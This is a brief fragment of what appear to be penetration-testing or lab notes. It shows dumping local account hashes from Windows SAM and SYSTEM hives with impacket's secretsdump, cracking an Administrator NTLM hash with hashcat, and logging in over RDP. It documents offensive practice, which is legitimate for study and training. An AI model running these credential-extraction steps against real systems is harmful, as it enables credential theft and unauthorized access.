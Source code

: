       * SAM
      * SYSTEM



Attack SAM

*

    ```
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
    ```
* we retrieved NTLM hash for Administrator account
* hashcat
  *

      ```
      sudo hashcat -m 1000 e53d4d912d96874e83429886c7bf22a1 mut_password.list
      ```

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

*   we obtained PW for admin

    * connect via RDP
